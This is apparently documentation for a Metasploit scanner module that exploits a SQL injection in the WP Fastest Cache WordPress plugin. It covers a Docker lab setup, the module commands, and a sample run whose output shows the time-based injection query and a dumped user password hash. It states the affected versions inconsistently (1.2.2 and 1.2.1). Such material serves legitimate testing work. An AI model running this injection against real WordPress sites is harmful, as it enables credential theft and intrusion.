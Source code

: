 ## Vulnerable Application

The vulnerability affects the **WP Fastest Cache** plugin, version **1.2.2** and below, allowing SQL injection via a multipart form.

### Pre-requisites:
   - **Docker** and **Docker Compose** installed on your system.

### Setup Instructions:

1. **Download the Docker Compose file**:
   - Here is the content of the **docker-compose.yml** file to set up
   WordPress with the vulnerable WP Fastest Cache plugin and a MySQL database.

```yaml
version: '3.1'

services:
  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 512m
    volumes:
      - wordpress:/var/www/html

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

2. **Start the Docker environment**:
   - In the directory where you saved the `docker-compose.yml` file, run the following command to start the services:

```bash
docker-compose up -d
```

3. **Install WP Fastest Cache Plugin**:
   - Download the vulnerable version of WP Fastest Cache:

```bash
wget https://downloads.wordpress.org/plugin/wp-fastest-cache.1.2.1.zip
```

   - Install the plugin in your running WordPress instance:
     - Extract the plugin files and copy them to your WordPress container:

```bash
unzip wp-fastest-cache.1.2.1.zip
docker cp wp-fastest-cache wordpress:/var/www/html/wp-content/plugins/
```

   - Navigate to `http://localhost:5555/wp-admin` in your browser and activate the **WP Fastest Cache** plugin in the WordPress admin panel.

4. **Enable Permalinks and Caching**:
   - Go to `Settings > Permalinks` in the WordPress dashboard and set permalinks to **Post name**.
   - Activate the caching feature in the WP Fastest Cache settings.

## Verification Steps

1. **Set up WordPress** with the vulnerable **WP Fastest Cache 1.2.1** plugin.
2. **Start Metasploit** using the command `msfconsole`.
3. Use the correct module for the vulnerability:

```bash
   use auxiliary/scanner/http/wp_fastest_cache_sqli
```

4. Set the target's IP and URI:

```bash
   set RHOST <target_ip>
   set TARGETURI /
```

5. **Run the module**:

```bash
   run
```

6. **Verify the SQL Injection**:
   - After running the module, the SQL injection payload will attempt to retrieve or manipulate data from the WordPress database.

## Options

### COUNT
This option specifies the number of rows to retrieve from the database during the SQL injection attack.
For example, setting `COUNT` to 5 will retrieve 5 rows from the `wp_users` table.

## Scenarios

The following scenario demonstrates an SQL injection attack against a WordPress
installation running **WP Fastest Cache <= 1.2.1** on a Docker environment with MySQL.

### Step-by-step Scenario

```bash
msf6 auxiliary(scanner/http/wp_fastest_cache_sqli) > run http://127.0.0.1:5555

[*] Performing SQL injection via the 'wordpress_logged_in' cookie...
[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(chQnW) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) chQnW from wp_users limit 1) hsbomFD)
[*] {SQLi} Encoded to (select group_concat(chQnW) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0xe4,0)),ifnull(user_pass,repeat(0x57,0))) as binary) chQnW from wp_users limit 1) hsbomFD)
[*] {SQLi} Time-based injection: expecting output of length 44
[+] Dumped table contents:
wp_users
========

 user_login  user_pass
 ----------  ---------
 chocapikk   $P$BPdY0XccQT2nvSXE8bjsn1CERoF7eJ.

[+] Loot saved to: /home/chocapikk/.msf4/loot/20240919001325_default_127.0.0.1_wordpress.users_514832.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
